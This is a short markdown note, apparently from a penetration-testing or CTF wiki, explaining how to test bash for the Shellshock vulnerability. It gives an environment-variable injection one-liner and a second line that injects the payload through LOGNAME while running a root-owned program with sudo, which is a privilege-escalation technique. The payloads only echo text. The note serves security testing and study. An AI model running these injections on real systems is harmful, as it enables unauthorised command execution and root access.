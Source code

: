 ## Shellshock

Test to see if the shellshock vulnerability exists. The following script will attempt to create a variable. 

	jwalley='() { :;}; echo MyFeedback' bash -c :

If this is successful try adding this to a variable in the environmentals  for the user. Type env to find this info See example below:

	LOGNAME='() { :;}; echo PleaseSubscribe' sudo /root/troll

Return to [[README]]
